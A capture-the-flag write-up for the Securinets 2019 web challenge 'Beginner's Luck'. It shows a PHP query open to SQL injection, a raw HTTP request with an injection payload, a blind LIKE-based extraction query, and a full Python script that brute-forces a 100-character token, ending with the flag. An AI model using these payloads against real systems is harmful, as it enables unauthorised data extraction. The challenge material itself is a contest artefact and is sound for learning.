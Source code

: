 # Securinets Prequals CTF 2019 – Beginner's Luck

* **Category:** Web
* **Points:** 989

## Challenge

> Can you help me to win the flag ? I bet you can't ..
>
> https://web4.ctfsecurinets.com
>
> [files](files)
>
> Author:Tr'GFx

## Solution

The website simulates a guessing game where the target is to guess the random token (100 chars) generated for your IP address in order to read the flag.

The challenge gives you some files with the source code.

Analyzing the source code you can discover, into `play.php`, a query vulnerable to SQL injection:

```php
$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
$result = $conn->query($sql);
```

It can be abused with a payload like the following.

```
POST /play.php HTTP/1.1
Host: web4.ctfsecurinets.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://web4.ctfsecurinets.com/play.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Cookie: PHPSESSID=xxxxxxxxxxxxxxxxxxxxxxxxxx
Upgrade-Insecure-Requests: 1

val=' OR ''='
```

Nothing is printed to output as result of the query, except for different messages when the query returns rows and when no rows are returned. 

These are the prerequisites for a *blind SQL injection*. Data could be exfiltrated, one char at a time, using `LIKE` statement.

The problem is that a limit for the number of the attempts is present (max 10 attempts). At the end of the attempts, the token will be reset. So it's impossible, *from the same IP where the token was generated*, to discover the token.

The solution is obvious: you have to generate the token from one IP, then you have to change the IP to discover the previous generated token.

The query to exfiltrate data is the following.

```sql
' OR (ip='x.x.x.x' AND token LIKE '{}%') #
```

*Please consider that the specified IP must be the one for which the token was generated, not the attacking one!*

A [Python script](beginners-luck.py) can be written to discover the token.

```python
import time
import random
import os
import string
import requests

token = ""
found = len(token)
letters = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
letter_candidate = 0
payload = "val=' OR (ip='x.x.x.x' AND token LIKE '{}%') #"
headers = {
   "User-Agent": "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);", 
   "Content-Type": "application/x-www-form-urlencoded"
}
url_main = "https://web4.ctfsecurinets.com/"
url_index = url_main + "index.php"
url_play = url_main + "play.php"
url_reset = url_main + "reset.php"
url_start = url_main + "start.php"

global_debug = False
def debug(page, local_debug):
   if global_debug and local_debug:
      print page.status_code
      print page.headers
      print page.text

try:

   print "[*] Contacting '{}'.".format(url_reset)
   page = requests.get(url_reset, headers=headers)
   cookies = {"PHPSESSID": page.cookies["PHPSESSID"]}
   debug(page, False)
   

   while found < 100:

      print "[*] Contacting '{}'.".format(url_index)
      page = requests.get(url_index, headers=headers, cookies=cookies)
      debug(page, False)

      if "Session Expired" in page.text:
         print "[*] Session expired, contacting '{}'.".format(url_index)
         page = requests.get(url_index, headers=headers, cookies=cookies)
         debug(page, False)
      elif "Attempt" in page.text:
         letter = letters[letter_candidate]
         attempt = token + letter
         print "[*] Attempt '{}'.".format(attempt)
         data = payload.format(attempt)
         print "[*] Payload: {}.".format(data)
         page = requests.post(url_play, data=data, headers=headers, cookies=cookies)
         debug(page, False)
         
         if "True" in page.text:
            token += letter
            found += 1
            letter_candidate = 0
            print "[*] Correct letter, new token '{}'.".format(token)
         elif "Better luck next time" in page.text:
            letter_candidate = letter_candidate + 1
            print "[*] Wrong letter."         
         elif "Max Attempts Reahed" in page.text:
            print "[*] Max attempts reached, contacting '{}'.".format(url_index)
            page = requests.get(url_index, headers=headers, cookies=cookies)
            debug(page, False)
         else:
            print "[!] Something not working."
            break

      # Go to sleep.
      sleep_interval = 0
      print "[*] Sleeping {} secs.".format(sleep_interval)
      time.sleep(sleep_interval)

except KeyboardInterrupt:
   print "[-] Interrupted!"
```
*(Forgive me, but I wrote this script around 03:00 AM, so it's not the best I can do...)*

At the end the of the process, you can insert the token in the form at the following page. Be sure to use the IP for which the token was generated.

```
https://web4.ctfsecurinets.com/flag.php
```

The page will give you the flag.

```
Securinets{GG_uMadeIT_BLiIiND_M@N}
```